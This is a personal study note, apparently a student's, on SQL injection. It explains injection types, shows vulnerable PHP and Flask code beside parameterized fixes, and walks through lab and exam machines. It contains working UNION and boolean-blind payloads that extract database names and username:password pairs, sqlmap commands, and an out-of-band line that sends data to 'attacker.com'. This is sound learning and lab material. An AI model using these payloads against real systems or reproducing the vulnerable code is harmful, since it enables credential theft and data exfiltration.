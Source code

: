 #+title: Sqli
#+author: gabriel

https://tib3rius.com/sqli

 SQL Injection attacks can lead to the theft of sensitive data, corruption, or complete deletion of database structures.

*some sqli types* ->

[[./imgs/sqli_types.png]]


* Logical operators
In SQL, a single condition may not be sufficient to meet users' needs. In such cases, SQL provides logical operators to use multiple conditions simultaneously.

The most common logical operators are AND, OR, and NOT.

The AND operator takes two conditions and returns true if both conditions are evaluated to be true, otherwise it returns false.

: SELECT 1 = 1 AND 'example' = 'example';

The OR operator takes two conditions and returns true if at least one of the conditions is true.

: SELECT 1 = 1 OR 'leet' = '1337';

The NOT operator negates a boolean value, turning true into false, and false into true.

: SELECT NOT 1 = 1;

The AND, OR, and NOT operators can also be represented by symbols: && for AND, || for OR, and ! for NOT, respectively.

#+begin_src sql
SELECT 1 = 1 && 'example' = 'abc';
SELECT 1 =1 || 'example' = 'abc';
SELECT !1 = 1;
#+end_src

* special characters
Special characters in SQL are used to perform certain functions or carry specific meanings in database queries

The table below includes some important special characters commonly used in SQL along with their descriptions and example usages.

| Character | Description | Example Usage
| * | Used to select all columns | SELECT * FROM users;
| % | Represents any sequence of characters in 'LIKE' queries | SELECT * FROM users WHERE name LIKE 'A%';
|_ |Represents a single character in 'LIKE' queries  | SELECT * FROM users WHERE name LIKE 'A_';
| ' | Used to delimit strings | SELECT * FROM users WHERE name = 'Jack';
|" | Used to delimit column and table names | SELECT "name" FROM "users";

* Situations Leading to SQL Injection Vulnerability
SQL Injection vulnerabilities are common security issues in web applications, often resulting from poor programming practices.

One of the most common causes of SQL Injection vulnerabilities is the inclusion of unchecked user inputs in SQL queries.

*vuln code* ->
#+begin_src php
$username = $_GET['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query);
#+end_src

*secure code* ->
#+begin_src php
$username = $_GET['username'];
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $username);
$stmt->execute();
$result = $stmt->get_result();
#+end_src

** Insufficient Input Validation
Unsafe input validation or sanitization processes can also lead to SQL Injection vulnerabilities. Applications should properly validate and sanitize user inputs.

*vuln code* ->
#+begin_src php
$username = $_GET['username'];
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query);
#+end_src

*secure code* ->
#+begin_src php
$username = $_GET['username'];
if (preg_match('/^[a-zA-Z0-9_]{1,15}$/', $username)) {
    $stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
    $stmt->bind_param("s", $username);
    $stmt->execute();
    $result = $stmt->get_result();
} else {
    echo "Invalid username.";
}
#+end_src

** Exposed error messages
Exposing SQL error messages to users allows attackers to analyze the database structure. Attackers can use this information for more sophisticated attacks.



* In-band SQL injection
In-Band SQL Injection occurs when the attacker can both send and receive data over the same communication channel. This type is the most common way to exfiltrate information.

** error-based SQL injection
This technique relies on causing the application to display error messages from the database, revealing its structure. The attacker intentionally makes errors in the query and takes advantage of the error messages.

: SELECT * FROM users WHERE id = 1' AND extractvalue(rand(),concat(0x3a,(SELECT @@version)));

** union-based SQL injection
A Union-based attack is carried out using the UNION operator. The attacker aims to extract additional data by appending extra queries to the original query with the UNION keyword.

: SELECT username, password FROM users WHERE id = 1 UNION SELECT credit_card, pin FROM customers;

** out-of-band
Out-of-Band SQL Injection occurs when the data is retrieved using a different channel or protocol. It often involves exfiltrating data via DNS or HTTP requests.

: SELECT load_file(concat('\\\\', (SELECT @@version), '.attacker.com\\abc'));

* Blind SQL injection
Blind SQL Injection is used when the attacker cannot directly obtain information about the database structure or data.

** boolean-based
Data can be inferred based on whether the query returns true or false. The attacker sends conditional queries and infers the database content from the application responses.

This query checks whether the first character of the admin user’s password is 'a'. ->
: SELECT * FROM users WHERE username = 'admin' AND substring(password,1,1) = 'a';

** time-based
This method works by creating a time delay based on the query result. If the query is true, there is a delay; if false, there is no delay.

This query causes the database to pause for 10 seconds if the condition is true. The response delay indicates that the condition is true. ->
: SELECT * FROM users WHERE username = 'admin' AND IF(1=1, sleep(10), false);

* Login bypass python panel
In this example, we'll explore how to log in using SQL Injection on a login panel developed with Python.

Let's assume we have a login panel in a simple web application where users can log in with a username and password. The backend Python code adds user inputs directly into the SQL query, leading to an SQL Injection vulnerability.

The following Python script is written for a simple login process using a web framework like Flask.

*vuln code* ->
#+begin_src python
from flask import Flask, request, render_template_string
import sqlite3

app = Flask(__name__)

@app.route('/login', methods=['GET', 'POST'])
def login():
    error = ''
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        conn = sqlite3.connect('database.db')
        cursor = conn.cursor()

        query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
        cursor.execute(query)
        result = cursor.fetchone()

        if result:
            return "Welcome, " + result[1]  # result[1] is the username
        else:
            error = 'Invalid credentials'
    return render_template_string('<form method="post">Username: <input name="username" type="text"><br>Password: <input name="password" type="text"><br><input type="submit" value="Login"></form>{{ error }}', error=error)

if __name__ == '__main__':
    app.run(debug=True)
#+end_src

In this code, the username and password are directly added into the SQL query (query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"), creating an SQL Injection vulnerability.

To bypass the login system using SQL Injection, one can enter the following payload in the username field to log in without knowing the password.

: admin' --

The payload transforms the SQL query in the Python code into the following ->
: SELECT * FROM users WHERE username='admin' --' AND password=''

Here, the -- symbol is used to start a comment in SQL, neutralizing the rest of the query.

** security recommendation
To prevent such vulnerabilities, applications should validate inputs and use parameterized queries to construct SQL queries. In Python, this can be done using the SQLite3 library as follows:

#+begin_src python
query = "SELECT * FROM users WHERE username=? AND password=?"
cursor.execute(query, (username, password))
#+end_src


* Union based SQL Injection
This technique relies on combining SQL queries using the UNION operator. The UNION operator is used to combine the results of two or more SQL queries into a single result set.

For a successful attack, the original query and the appended query must have the same number of columns and compatible data types in the columns.

*Determining the number of columns* ->
First, determine the number of columns the original SQL query returns in the targeted application.
- Knowing the number of columns is essential for crafting a correct UNION SQL Injection payload.

 *Ensuring data type compatibility* ->
 Ensure that the data types of the columns are compatible because all queries using UNION must have the same structure.

*Extracting information* ->
The attacker adds additional queries using the UNION command to extract additional data.

* Union-based SQLI
This lab contains a SQL injection vulnerability in the search function. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

To complete the lab, perform a SQL injection UNION attack that retrieves database name.

What is the password for the user named "oliverlee" in the database?

First, let's test for the presence of an SQL Injection vulnerability by using the payload
: ' OR 1=1#.

Using this payload, we discover the presence of an SQL Injection vulnerability, now let's write a UNION SQL Injection payload like the one below to determine the number of columns.

: FORD' UNION SELECT 1,2#

As seen in the image above, we didn't get a result. We will continue our attempts with 3 columns, 4 columns, and so on.

with 4 colums works !!
: FORD' UNION SELECT 1,2,3,4#

Now, we can modify the UNION part of our working payload to extract the desired data from the database.

** Information gathering functs
| Function	| Description
| USER()	| Returns the database user name and host name
| DATABASE()	| Returns the name of the selected database
| VERSION()	| Returns the version of the SQL server

Let's add these functions to our SQL Injection payload and execute it.

with this payload we get the version database and username
:  FORD' UNION SELECT USER(),DATABASE(),VERSION(),4 #

this payload too ->
: ' UNION SELECT USER(),DATABASE(),VERSION(),4 #

response ->
: root@localhost 	ecliptica_cars 	8.0.35 	4

Get the tables from ecliptica_cars ->
: ' UNION SELECT 1, group_concat(table_name), 3, 4 FROM information_schema.tables WHERE table_schema = 'ecliptica_cars' #

response ->
: 1 	cars,settings,users 	3 	4

List columns from the users table ->
: ' UNION SELECT 1, group_concat(column_name), 3, 4 FROM information_schema.columns WHERE table_schema = 'ecliptica_cars' AND table_name = 'users' #

Extract data from users ->
: ' UNION SELECT 1, group_concat(username, ':', password), 3, 4 FROM users #

* Boolean_based BLind SQL injection
This lab contains is a SQL Injection vulnerability in the stock control function. Due to the business logic, only "available in stock" or "not available in stock" response is received from the server.

To complete the lab, perform a Blind SQL Injection attack using these two possibilities and retrieve the database name.

What is database name?

*KEy steps fro boolen based* ->
1. Identifying the entry point ->
   This type of attack is typically directed at queries that directly take user input. First, the target entry point must be identified, such as username or search fields.

2. Logical response evaluation ->
   The attacker manipulates the query to determine information about the database’s structure and content based on the logical outcomes of the query.

3. Manipulating with logical operators ->
   In these attacks, queries are manipulated using logical operators (AND, OR) and True/False conditions. For example:

Esse payload funcionou e informou que o nome possui exatamente 10 chars
: applewatch7' AND LENGTH(database()) = 10;

A primeira letra é ~e~, este payload confirmou ->
: applewatch7' AND SUBSTRING(database(), 1, 1) = 'e';

*search* ->
: applewatch7' AND SUBSTRING(database(), 2, 1) > 'a';

Deu verdadeiro, entao a segunda letra está entre a e d, pois d deu false

Segunda letra é igual a ~c~ ->
: applewatch7' AND SUBSTRING(database(), 2, 1) = 'c';

Terceira letra é ~h~ ->
: applewatch7' AND SUBSTRING(database(), 3, 1) = 'h';

Quarta letra é ~o~ ->
: applewatch7' AND SUBSTRING(database(), 4, 1) = 'o';

QUinta letra é ~0 zero~ ->
: applewatch7' AND SUBSTRING(database(), 5, 1) = 0;

Sexta letra é ~s~ ->
: applewatch7' AND SUBSTRING(database(), 6, 1) = 's';

Sétima letra é ~t~ ->
: applewatch7' AND SUBSTRING(database(), 7, 1) = 't';

Oitava letra é ~o~ ->
: applewatch7' AND SUBSTRING(database(), 8, 1) = 'o';

Nona letra é ~r~ ->
: applewatch7' AND SUBSTRING(database(), 9, 1) = 'r';

Décima letra é ~e~ ->
: applewatch7' AND SUBSTRING(database(), 10, 1) = 'e';

* EXAM machine

this payload works so far ->
: he' OR 1=1;#

Ordening with ORDER to identify the number of columns ->
: he' ORDER BY 1;#
: he' ORDER BY 2;#
: he' ORDER BY 3;#

Crafting the UNION payload ->
: he' UNION SELECT 1,DATABASE(),3;#

This return the database name ->
: Vega_dictionary

Get information from ->
: he' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='Vega_dictionary';#

Users,words

Get then ->
: he' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='Vega_dictionary';#

Email,full_name,id,last_name,password,username,id,meaning,word

Get Users table ->
: he' UNION SELECT 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='Vega_dictionary' AND table_name='Users';#

Email,full_name,id,last_name,password,username

Com estas infos, pode se retornar a payloads mais simples porém focados e com mais precisão, neste caso focando na tabela users e suas colunas ->
: he' UNION SELECT 1,GROUP_CONCAT(username, ':', password),3 FROM Users;#

* time-based blind SQL injection
This lab contains is a SQL Injection vulnerability in the forgot password function. Unlike other SQL Injection labs, the answer returned from the server is always the same.

To complete the lab, perform a Time-Based Blind SQL Injection attack observing the changes in response time and retrieve the database name.

What is database name?

solved with ->
: sqlmap -r requests.txt --risk=3 --level=3 --technique=E

: sqlmap -r requests.txt --risk=3 --level=3 --dbs

* sqlmap exam machine
Solved with sqlmap again, but now i can enum the number of columns and start the UNION payload craft

Vuln detect ->
: ' OR 1=1;#

Get the number of columns ->
: ' ORDER BY 3;#

First crafted payload ->
: ' UNION SELECT 1,DATABASE(),3;#

A little bit more complex payload after get the database name ->
: ' UNION SELECT 1,group_concat(table_name),USER() FROM information_schema.tables WHERE table_schema = 'just_movie';#

Now get the discoverd tables/columns ->
: ' UNION SELECT 1,group_concat(column_name),USER() FROM information_schema.columns WHERE table_schema = 'just_movie' AND table_name='users';#

id,fullname,username,password,phone

Now get the users table columns content ->
